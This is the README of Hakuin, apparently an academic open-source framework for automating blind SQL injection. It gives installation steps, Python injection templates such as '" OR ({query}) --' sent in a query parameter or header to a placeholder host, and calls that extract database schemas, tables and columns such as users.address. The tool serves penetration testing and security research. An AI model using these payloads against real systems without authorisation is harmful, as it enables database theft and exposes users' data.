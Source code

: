 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstracts away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, including pre-trained and adaptive language models, opportunistic guessing, parallelism and more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import aiohttp
from hakuin import Requester

class StatusRequester(Requester):
    async def request(self, ctx, query):
        r = await aiohttp.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    async def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = await aiohttp.get(f'http://vuln.com/', headers=headers)
        return 'found' in await r.text()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Hakuin currently supports `SQLite`, `MySQL`, `PSQL` (PostgreSQL), and `MSSQL` (SQL Server) DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite/MySQL/PSQL/MSSQL
```python
import asyncio
from hakuin import Extractor, Requester
from hakuin.dbms import SQLite, MySQL, PSQL, MSSQL

class StatusRequester(Requester):
    ...

async def main():
    # requester:    Use this Requester
    # dbms:         Use this DBMS
    # n_tasks:      Spawns N tasks that extract column rows in parallel 
    ext = Extractor(requester=StatusRequester(), dbms=SQLite(), n_tasks=1)
    ...

if __name__ == '__main__':
    asyncio.get_event_loop().run_until_complete(main())
```

Now that eveything is set, you can start extracting DB metadata.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained model
schema_names = await ext.extract_schema_names(strategy='model')
```

##### Example 2 - Extracting Tables
```python
tables = await ext.extract_table_names(strategy='model')
```

##### Example 3 - Extracting Columns
```python
columns = await ext.extract_column_names(table='users', strategy='model')
```

##### Example 4 - Extracting Tables and Columns Together
```python
metadata = await ext.extract_meta(strategy='model')
```

Once you know the structure, you can extract the actual content.

##### Example 1 - Extracting Generic Columns
```python
# text_strategy:    Use this strategy if the column is text
res = await ext.extract_column(table='users', column='address', text_strategy='dynamic')
```

##### Example 2 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = await ext.extract_column_text(table='users', column='address', strategy='dynamic')
```

##### Example 3 - Extracting Integer Columns
```python
res = await ext.extract_column_int(table='users', column='id')
```

##### Example 4 - Extracting Float Columns
```python
res = await ext.extract_column_float(table='products', column='price')
```

##### Example 5 - Extracting Blob (Binary Data) Columns
```python
res = await ext.extract_column_blob(table='users', column='id')
```

More examples can be found in the `tests` directory.


## Using Hakuin from the Command Line
Hakuin comes with a simple wrapper tool, `hk.py`, that allows you to use Hakuin's basic functionality directly from the command line. To find out more, run:
```
python3 hk.py -h
```


## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
